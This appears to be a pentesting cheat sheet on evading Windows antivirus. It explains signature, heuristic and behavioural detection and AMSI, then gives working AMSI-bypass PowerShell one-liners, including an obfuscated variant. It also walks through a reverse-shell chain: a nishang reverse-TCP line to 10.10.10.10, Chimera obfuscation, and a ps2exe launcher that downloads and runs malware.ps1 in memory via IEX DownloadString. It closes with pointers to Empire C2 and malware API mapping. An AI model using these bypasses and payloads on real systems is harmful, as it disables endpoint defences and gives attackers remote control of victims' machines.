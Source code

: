 # AV Evasion

## Detection methods of antivirus

### Signature detection

* The antivirus checks if the binary matches any signature in its database.

### Heuristic detection

* The antivirus looks for patterns and system calls trying to decompile the binary and analyze its code.

### Behavioral detection

* Dynamically analyzes the binary. Runs the binary in a small controlled environment and looks for malicious actions.

### AMSI

* Antimalware Scan Interface (AMSI) is a Microsoft Windows component that allows the deeper inspection of built-in scripting services.
* Advanced malware uses scripts that are disguised or encrypted to avoid traditional methods of scanning. Such malware is often loaded directly into memory, so it does not use any files on the device. AMSI is an interface that applications and services that are running on Windows can use to send scanning requests to the antimalware product installed on the computer. This provides additional protection against harmful software that uses scripts or macros on core Windows components, such as PowerShell and Office365, or other applications to evade detection.

## AMSI evasion

* It is possible to disable AMSI by changing an attribute that is loaded in a powershell process:
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
  ```
* This bypass has been added to the signature database so that not will work.
* The next powershell code is a version of obfuscated AMSI evasion:
  ```powershell
  $a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true)
  ```
  
## Obfuscation

* Another technique to evade the antivirus is to obfuscate the malware. There are multiple tools to do this.

### Chimera

* [Chimera][2] is a PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

## Reverse shell

* To get a reverse shell, we obfuscate the [nishang][3] shell with Chimera.
* Before obfuscation, we add the next line to the nishang script:
  ```powershell
  Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 443
  ```
* Obfuscate with Chimera:
  ```bash
  ./chimera.sh --file nishangShell.ps1  --all --output malware.ps1
  ```
* To trigger the reverse shell we can use [ps2exe][4] to create a binary with the next powershell code:
  ```powershell
  $A=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<code_base64>"))
  powershell -noprofile -ep bypass $A
  ```
* In `code_base64` we add the web request to our http server in base64:
  ```powershell
  IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/malware.ps1')
  ```
* Finally, we have the binary that will request the file malware.ps1 and inject it into memory, then, the reverse shell will be received by our machine.

## Command and Control (C2)

* To get a connection with the C2 [Empire][5], we will create a payload with empire and add the AMSI bypass.

## Creating malware

* [malapi][8] maps Windows APIs to common techniques used by malware.

## Further reading

* [AMSI Bypass Methods][6]
* [Amsi-Bypass-Powershell][7]

|Source: [*"Using AMSI integration to identify script-based attacks" from WithSecure*][1].|
|:--:|

[1]: https://help.f-secure.com/product.html?business/computer-protection-windows/latest/en/task_ED11EEBB08DD4583AFA13EA59D3FC768-latest-en
[2]: https://github.com/tokyoneon/Chimera.git 
[3]: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 
[4]: https://ps2exe.azurewebsites.net/ 
[5]: https://github.com/EmpireProject/Empire
[6]: https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
[7]: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
[8]: https://malapi.io/
